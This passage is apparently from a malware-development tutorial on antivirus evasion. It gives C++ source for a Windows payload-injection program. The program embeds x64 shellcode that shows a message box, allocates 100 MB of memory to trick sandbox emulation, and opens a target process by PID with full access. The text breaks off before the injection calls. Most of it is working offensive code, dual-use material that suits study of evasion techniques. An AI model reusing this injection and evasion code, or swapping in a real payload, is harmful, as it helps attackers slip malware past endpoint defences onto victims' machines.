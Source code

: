 So, let's go to update our simple malware:   

```cpp
/*
hack.cpp
classic payload injection example
allocate too much memory
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/12/21/simple-malware-av-evasion-3.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

int main(int argc, char* argv[]) {

  // meow-meow messagebox x64 windows
  unsigned char my_payload[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  DWORD pid; // process ID
  pid = atoi(argv[1]);

  // allocate and fill 100 MB of memory
  char *mem = NULL;
  mem = (char *) malloc(100000000);

  if (mem != NULL) {
    memset(mem, 00, 100000000);
    free(mem);

    // parse process ID
    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
    DWORD(pid));
    printf("PID: %i", pid);

```